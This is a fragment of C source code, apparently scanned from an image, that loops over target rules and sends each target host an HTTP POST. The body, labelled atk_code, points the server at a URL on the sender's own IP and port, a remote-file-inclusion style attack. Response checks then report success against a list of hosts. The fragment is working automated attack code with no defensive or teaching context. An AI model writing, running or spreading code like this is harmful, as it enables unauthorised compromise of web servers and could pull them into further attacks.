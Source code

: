         for(whgl=0;whgl<strlen(t_ptr)+1;whgl++)
        {
         if(t_ptr[whgl]=='/')
         {
          for(gogo=0;whgl<strlen(t_ptr);whgl++)
           url[gogo++]=t_ptr[whgl];
          strcat(url,__tg_rule_va[tgrl_sl].url_str);
          break;
         }
         else if(t_ptr[whgl]=='\0')
         {
          strncpy(url,__tg_rule_va[tgrl_sl].url_str,sizeof(url)-1);
          break;
         }
         else if(t_ptr[whgl]==':')
         {
          port_ptr=(char *)strstr(t_ptr,":")+1;
          port=atoi(port_ptr);
         }
         else host[chk++]=t_ptr[whgl];
        }
#ifdef DEBUG_ING
        fprintf(stdout,"Total:%s,URL:%s,HOST:%s,PORT:%d\n",test_bf,url,host,port);
#endif
ok:
        sock=set_sock(host,port,0);
        if(sock==-1)
         continue;
        else {
         memset((char *)ip,0,sizeof(ip));
         memset((char *)atk_code,0,sizeof(atk_code));
         memset((char *)pkt,0,sizeof(pkt));

         (int)g_ip(ip);
         snprintf(atk_code,sizeof(atk_code)-1,"dir=http://%s:%d/\r\n",ip,def_port);
         snprintf(pkt,sizeof(pkt)-1,
          "POST http://%s%s HTTP/1.0\r\n"
          "Content-Type: application/x-www-form-urlencoded\r\n"
          "Content-Length: %d\r\n"
          "Host: %s\r\n\r\n%s\r\n",host,url,strlen(atk_code),host,atk_code);
         send(sock,pkt,strlen(pkt),0);
         memset((char *)pkt,0,sizeof(pkt));
         recv(sock,pkt,sizeof(pkt)-1,0);
#ifdef DEBUG_ING
         if(strstr(pkt,RESULT_OK))
         {
          if(strstr(pkt,MAKE_STR1))
           fprintf(stdout,"%s\n",MAKE_STR1);
          if(strstr(pkt,MAKE_STR2))
           fprintf(stdout,"%s\n",MAKE_STR2);
          if(strstr(pkt,DELT_STR1))
           fprintf(stdout,"%s\n",DELT_STR1);
          if(strstr(pkt,DELT_STR2))
           fprintf(stdout,"%s\n",DELT_STR2);
          printf("%s: %s\n",RESULT_OK,host);
         }
#endif
        }
        close(sock);

